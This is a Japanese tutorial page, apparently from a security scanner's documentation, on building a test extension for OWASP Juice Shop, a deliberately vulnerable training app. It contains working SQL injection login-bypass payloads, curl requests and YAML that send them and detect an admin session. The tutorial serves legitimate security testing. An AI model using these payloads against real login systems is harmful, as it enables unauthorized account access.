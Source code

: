 [link-meta-info]:           ../create-extension.md#meta-info-kaku-no-kozo
[link-send-headers]:        ../phase-send.md#host-hedda-to-no-omoshiro
[link-using-extension]:     ../using-extension.md
[link-app-examination]:     app-examination.md

[doc-send-phase]:           ../phase-send.md
[doc-detect-phase]:         ../detect/phase-detect.md

[link-juice-shop]:          https://www.owasp.org/index.php/OWASP_Juice_Shop_Project


#   変更を伴わないエクステンションの作成 

この文書で述べているエクステンションは、ペイロードを注入するための入力基本リクエストを変更しません。代わりに、2つの事前定義されたテストリクエストが、基本リクエストで指定されたホストに送信されます。これらのテストリクエストには、[「OWASPジュースショップ」][link-juice-shop]のターゲットアプリケーションのログインフォームでのSQLi脆弱性を利用する可能性のあるペイロードが含まれています.


##  準備

FASTエクステンションの作成前に、ターゲットアプリケーションの動作を[調査することが強く推奨されます][link-app-examination]。


##  エクステンションの構築 

エクステンションを記述するファイル（例えば `non-mod-extension.yaml`）を作成し、必要なセクションに情報を記入します。

1.  [**`meta-info`セクション**][link-meta-info]。

    エクステンションが検出しようとしている脆弱性の説明を準備します。

    * 脆弱性ヘッダー: `OWASP Juice Shop SQLi (non-mod extension)`
    * 脆弱性の説明: `OWASP Juice ShopでのSQLiのデモ（管理者ログイン）`
    * 脆弱性タイプ: SQLインジェクション
    * 脆弱性の脅威レベル: 高

    それに応じた`meta-info`セクションは次のようになるはずです：

    ```
    meta-info:
      - type: sqli
      - threat: 80
      - title: 'OWASP Juice Shop SQLi (non-mod extension)'
      - description: 'OWASP Juice ShopでのSQLiのデモ（管理者ログイン）'
    ```
 
2.  **`send`セクション、[送信フェーズ][doc-send-phase]**

    ターゲットアプリケーションでのSQLインジェクション脆弱性を利用するためには、以下の2つのペイロードを`email`パラメータ値として任意の`password`値と一緒に送信する必要があります：
    
    * `'or 1=1 --`
    * `admin@juice-sh.op'--`

    上記の値のうち1つを`email`パラメータと、任意の値を`password`パラメータとする形で2つのテストリクエストを作成することができます。

    例の目標アプリケーション（OWASPジュースショップ）をテストするためには、これらのリクエストのうち1つを使用するだけで十分です。

    しかし、実際のアプリケーションのセキュリティテストを行う際には、いくつかの準備済みのテストリクエストを持っていると便利かもしれません：1つのリクエストがもう脆弱性を利用できなくなっても、他のテストリクエストがまだ脆弱性を利用できるかもしれません。

    先に挙げたペイロードリストの最初のペイロードを使用したリクエストは次のようなものになります：

    ```
    curl --request POST --url http://ojs.example.local/rest/user/login \
         --header 'content-type: application/json' \
         --header 'host: ojs.example.local' \
         --data '{"email":"'\''or 1=1 --", "password":"12345"}'
    ```

    2つ目のリクエストは最初のリクエストと似ています：

    ```
    curl --request POST --url http://ojs.example.local/rest/user/login \
         --header 'content-type: application/json' \
         --header 'host: ojs.example.local' \
         --data '{"email":"admin@juice-sh.op'\''--", "password":"12345"}'
    ```

    これら2つのテストリクエストの説明を含む`send`セクションを追加します：
    
    ```
    send:
      - method: 'POST'
        url: '/rest/user/login'
        headers:
        - 'Content-Type': 'application/json'
        body: '{"email":"''or 1=1 --","password":"12345"}'
      - method: 'POST'
        url: '/rest/user/login'
        headers:
        - 'Content-Type': 'application/json'
        body: '{"email":"admin@juice-sh.op''--","password":"12345"}'
    ``` 
    
    !!! info "`Host`ヘッダーについての注意点"
        この特定のSQLi脆弱性の利用には`Host`ヘッダーが影響を与えませんので、これらのリクエストでは`Host`ヘッダーを省略できます。FASTノードは、受信した基本リクエストから抽出した`Host`ヘッダーを自動的に追加します。
        
        送信フェーズがリクエストヘッダーをどのように扱うかについては[こちら][link-send-headers]で読むことができます。

    3.  **`detect`セクション、[検出フェーズ][doc-detect-phase]**。

    以下の条件は、管理者権限でのユーザー認証が成功したことを示します：
    
    * レスポンス本体の中に、ショッピングカート識別子パラメータの`1`の値の存在。パラメータはJSON形式で、次のようになります：

        ```
        "bid":1
        ```
    
    * レスポンス本体の中に、ユーザーメールパラメータの`admin@juice-sh.op`の値の存在。パラメータはJSON形式で、次のようになります：

        ```
         "umail":"admin@juice-sh.op"
        ```

    攻撃が成功したかどうかを、上記の条件に従って確認する`detect`セクションを追加します：
    
    ```
    detect:
      - response:
        - body: "\"umail\":\"admin@juice-sh.op\""
        - body: "\"bid\":1"
    ```

!!! info "特殊文字のエスケープ"
    文字列の中の特殊文字をエスケープすることを忘れないでください。

##  エクステンションファイル

`non-mod-extension.yaml`ファイルには、エクステンションが動作するために必要なセクションの全セットが含まれています。ファイルの内容は以下の通りです：

??? info "non-mod-extension.yaml"
    ```
    meta-info:
      - type: sqli
      - threat: 80
      - title: 'OWASP Juice Shop SQLi (non-mod extension)'
      - description: 'OWASP Juice ShopでのSQLiのデモ（管理者ログイン）'

    send:
      - method: 'POST'
        url: '/rest/user/login'
        headers:
        - 'Content-Type': 'application/json'
        body: '{"email":"''or 1=1 --","password":"12345"}'
      - method: 'POST'
        url: '/rest/user/login'
        headers:
        - 'Content-Type': 'application/json'
        body: '{"email":"admin@juice-sh.op''--","password":"12345"}'

    detect:
      - response:
        - body: "\"umail\":\"admin@juice-sh.op\""
        - body: "\"bid\":1"
    ```

##  エクステンションの使用

作成した表現の使用方法についての詳細情報は、[この文書][link-using-extension]を参照してください。